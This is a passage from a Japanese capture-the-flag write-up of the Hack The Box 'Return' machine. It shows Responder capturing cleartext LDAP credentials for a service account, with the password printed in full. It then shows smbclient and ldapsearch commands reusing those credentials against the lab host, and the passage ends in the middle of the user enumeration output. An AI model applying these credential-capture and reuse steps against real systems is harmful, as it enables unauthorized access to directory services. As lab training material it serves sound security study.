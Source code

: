```sh
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.62]
    Responder IPv6             [dead:beef:2::103c]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-GHCRKE4M265]
    Responder Domain Name      [5JUD.LOCAL]
    Responder DCE-RPC Port     [49686]

[+] Listening for events...                                                      

[LDAP] Cleartext Client   : 10.129.193.243
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

svc-printer の認証情報
svc-printer : 1edFg43012!!
## SMB (再)
- svc-printerの認証情報でログインができるのかどうかを確認する
	- ログインできない
- 単にsvc-printerに、SMBの権限がないかもしれない
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Return]
└─$ smbclient -L //$Target_IP -U 'svc-printer%1edFg43012!!'
do_connect: Connection to 10.129.193.243 failed (Error NT_STATUS_IO_TIMEOUT)
```


## LDAP
- svc-printerの認証情報でログインができるのかどうかを確認する
	- ログインできる
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Return]
└─$ ldapsearch -x -H ldap://10.129.193.243 -D 'return\svc-printer' -w '1edFg43012!!' -b 'DC=return,DC=local' '(objectClass=user)'
# extended LDIF
#
# LDAPv3
# base <DC=return,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: ALL
#

# Administrator, Users, return.local
dn: CN=Administrator,CN=Users,DC=return,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Administrator
description: Built-in account for administering the computer/domain
```